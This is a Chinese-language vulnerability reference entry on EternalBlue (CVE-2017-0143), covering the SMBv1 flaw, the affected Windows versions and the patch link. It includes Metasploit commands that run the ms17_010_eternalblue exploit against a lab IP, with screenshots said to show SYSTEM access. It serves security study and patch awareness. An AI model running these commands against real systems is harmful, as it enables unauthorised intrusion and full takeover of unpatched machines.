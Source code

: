### CVE-2017-0143

#### 描述

Eternalblue通过TCP端口445和139来利用SMBv1和NBT中的远程代码执行漏洞，恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网。大名鼎鼎的永恒之蓝漏洞

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          | x86/x64          |         |        |                    |
| Windows 10          | x86/x64          | 1511    |        |                    |
| Windows 10          | x86/x64          | 1607    |        |                    |
| Windows 7           | x86/x64          |         | SP1    | &#10004; |
| Windows 8.1         | x86/x64          |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 | x86/x64          |         | SP2    |                    |
| Windows Server 2008 | x86/x64          | R2      | SP1    |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2016 |                  |         |        |                    |
| Windows Vista       | x86/x64          |         | SP2    |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-0143
```

#### 利用方式

直接用msf就行，方便快捷，测试系统Windows 7 SP1 x64

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.0.128
run
```

![image-20200818114043309](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2017-0143_msf_1.png)

并且权限是system的

![image-20200818114925926](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2017-0143_msf_2.png)


#### 分析文章
- https://www.anquanke.com/post/id/86270
- https://github.com/worawit/MS17-010/blob/master/BUG.txt
- https://yi0934.github.io/2019/04/08/CVE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/ms17-010/
- https://cy2cs.top/2020/08/22/%E3%80%90owva%E3%80%91%E6%B0%B8%E6%81%92%E4%B9%8B%E8%93%9D%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
- https://paper.seebug.org/280/